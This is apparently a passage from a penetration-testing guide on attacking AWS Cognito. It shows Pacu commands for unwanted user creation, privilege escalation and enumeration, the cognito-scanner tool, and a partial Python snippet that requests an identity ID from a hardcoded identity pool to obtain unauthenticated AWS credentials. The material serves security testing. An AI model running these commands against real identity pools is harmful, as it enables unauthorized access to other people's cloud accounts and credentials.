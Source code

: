 Sample cognito\_\_attack usage to attempt user creation and all privesc vectors against a given identity pool and user pool client:

```bash
Pacu (new:test) > run cognito__attack --username randomuser --email XX+sdfs2@gmail.com --identity_pools 
us-east-2:a06XXXXX-c9XX-4aXX-9a33-9ceXXXXXXXXX --user_pool_clients 
59f6tuhfXXXXXXXXXXXXXXXXXX@us-east-2_0aXXXXXXX
```

Sample cognito\_\_enum usage to gather all user pools, user pool clients, identity pools, users, etc. visible in the current AWS account:

```bash
Pacu (new:test) > run cognito__enum
```

* [Cognito Scanner](https://github.com/padok-team/cognito-scanner) is a CLI tool in python that implements different attacks on Cognito including unwanted account creation and identity pool escalation.

#### Installation

```bash
$ pip install cognito-scanner
```

#### Usage

```bash
$ cognito-scanner --help
```

For more information check https://github.com/padok-team/cognito-scanner

## Accessing IAM Roles

### Unauthenticated

The only thing an attacker need to know to **get AWS credentials** in a Cognito app as unauthenticated user is the **Identity Pool ID**, and this **ID must be hardcoded** in the web/mobile **application** for it to use it. An ID looks like this: `eu-west-1:098e5341-8364-038d-16de-1865e435da3b` (it's not bruteforceable).

{% hint style="success" %}
The **IAM Cognito unathenticated role created via is called** by default `Cognito_<Identity Pool name>Unauth_Role`
{% endhint %}

If you find an Identity Pools ID hardcoded and it allows unauthenticated users, you can get AWS credentials with:

```python
import requests

region = "us-east-1"
id_pool_id = 'eu-west-1:098e5341-8364-038d-16de-1865e435da3b'
url = f'https://cognito-identity.{region}.amazonaws.com/'
headers = {"X-Amz-Target": "AWSCognitoIdentityService.GetId", "Content-Type": "application/x-amz-json-1.1"}
params = {'IdentityPoolId': id_pool_id}

r = requests.post(url, json=params, headers=headers)
json_resp = r.json()

if not "IdentityId" in json_resp:
    print(f"Not valid id: {id_pool_id}")
    exit

```